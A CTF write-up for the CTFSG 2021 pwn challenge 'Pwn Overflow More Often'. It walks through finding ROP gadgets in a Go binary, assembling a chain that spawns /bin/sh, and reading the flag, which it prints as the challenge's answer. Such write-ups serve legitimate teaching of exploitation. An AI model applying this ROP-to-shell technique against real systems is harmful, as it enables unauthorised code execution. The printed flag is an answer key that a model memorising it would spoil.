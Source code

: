```yaml
---
layout: writeup
ctf: CTFSG CTF 2021
chal: Pwn Overflow More Often
category: pwn
flag: CTFSG{g@dg3tRy_W1z@rdry_tO_pWn_g0l@nG}
points: 992
solves: 3
---
```


> Many-Many-More reasons for you to love POMO! Port over your number with us today to get a free gift of any gadget you want! Our telco backbone is powered by a super secure modern programming language which means you don't need to worry about being hacked! Your data is definitely safe with us!

Files given:
 - [pomo](pomo)

When we send in a long list of `"A"` as input, we see that the program segfaults and even gives us a traceback. This tells us we probably have to ROP the program.

Using ropper, one can dump all the gadgets to a file with `ropper --nocolor -f pomo > gadgets`. Gadgets: [gadgets](gadgets)

To call `execve("/bin/sh")`, we need
 - `rdi` points to `/bin/sh\x00` string
 - `rax = 0x3b` 
 - `rdx = 0` 
 - `rsi = 0` 

Furthermore, if we inspect the stack hard enough, we see that we only have 12 4-byte chunks that we can overwrite, meaning that we need to be extremely efficient with this rop chain.

## Finding gadgets

To get values into registers, `pop` is the easiest way to do so (`mov,`xor`,etc. may be more efficient but I couldn't find the appropriate gadgets). We easily find most of the pop instructions we need with a simple grep:

```sh
> cat gadgets | grep ': pop ...; ret;'
0x0000000000403c0d: pop rax; ret;
0x00000000004648ad: pop rbp; ret;
0x0000000000407fa1: pop rbx; ret;
0x00000000004188e2: pop rdx; ret;
0x00000000004387be: pop rsi; ret;
0x000000000041792b: pop rsp; ret;
```

however we are missing `pop rdi`. Unfortunately there is not convenient gadgets for `pop rdi`, and we have to use one of the following:
```sh
> cat gadgets | grep ': pop rdi; '
0x000000000041003d: pop rdi; dec dword ptr [rax + 0x21]; ret;
0x0000000000457ca4: pop rdi; sete byte ptr [rsp + 0x10]; ret;
```

The first would be hard to use as we need `rax` to point to a writable location, which takes at least 2 more 4-byte chunks.

In this case, we can use the second option as `sete` would set `byte ptr [rsp + 0x10]` to `0`, so if we can properly align our payload, this could be equivalent to a `nop`.

Next we need a gadget to write `/bin/sh\x00` as a string somewhere. It turns out that one such gadget exists!

```sh
> cat gadgets | grep ': mov qword ptr \[...\], ...; ret;'
0x0000000000463f6f: mov qword ptr [rdi], rax; ret;
```

and finally we need a syscall gadget:

```sh
> cat gadgets | grep ': syscall; ret;'
0x00000000004648e9: syscall; ret;
```

This leaves us with the following gadgets:

```py
mov_write = p64(0x0000000000463f6f) # mov qword ptr [rdi], rax; ret;
pop_rdi = p64(0x0000000000457ca4) # pop rdi; sete byte ptr [rsp + 0x10]; ret;
pop_rax = p64(0x0000000000403c0d) # pop rax; ret;
pop_rbp = p64(0x00000000004648ad) # pop rbp; ret;
pop_rbx = p64(0x0000000000407fa1) # pop rbx; ret;
pop_rdx = p64(0x00000000004188e2) # pop rdx; ret;
pop_rsi = p64(0x00000000004387be) # pop rsi; ret;
pop_rsp = p64(0x000000000041792b) # pop rsp; ret;
syscall = p64(0x00000000004648e9) # syscall; ret;
```

## Crafting rop chain

First we need to get `rdi` to point to a `/bin/sh\x00` string. We can easily find some writable memory, for example at `0x556a20` and use that to place our string:

```py
payload += pop_rax
payload += '/bin/sh\x00'
payload += pop_rdi
payload += bss
payload += mov_write
```

We need to be careful here as `pop_rdi` will zero out the 16th byte after it, hence here is a good place to pop a 0 into one of the registers. With this, we pop the values then call syscall in the follwing order:

```py
payload += pop_rdx
payload += p64(0)
payload += pop_rax
payload += p64(0x3b)
payload += pop_rsi
payload += p64(0)
payload += syscall
```

However when we run the script, we still get a segfault. Breaking right before the ROP chain, we see that somehow part of our padding got copied over into our rop chain:

```sh
0xc00005af10:	0x00403c0d	0x00000000	0x6e69622f	0x0068732f
0xc00005af20:	0x00457ca4	0x00000000	0x61616167	0x61616168
0xc00005af30:	0x61616169	0x6161616a	0x6161616b	0x6161616c
0xc00005af40:	0x00000000	0x00000000	0x00403c0d	0x00000000
0xc00005af50:	0x0000003b	0x00000000	0x004387be	0x00000000
0xc00005af60:	0x00000000	0x00000000	0x004648e9	0x00000000
```

This can easily be patched by replacing that part of our padding with the proper values, then we get a working exploit:

```sh
[*] Switching to interactive mode
Welcome to the Pwn Overflow More Often (POMO) telecom service.
Please enter your desired mobile no.: $
$ id
uid=1000(pomo) gid=1000(pomo) groups=1000(pomo)
$ cat /home/pomo/flag.txt
CTFSG{g@dg3tRy_W1z@rdry_tO_pWn_g0l@nG}
```

The solution script can be found at [exploit.py](exploit.py)
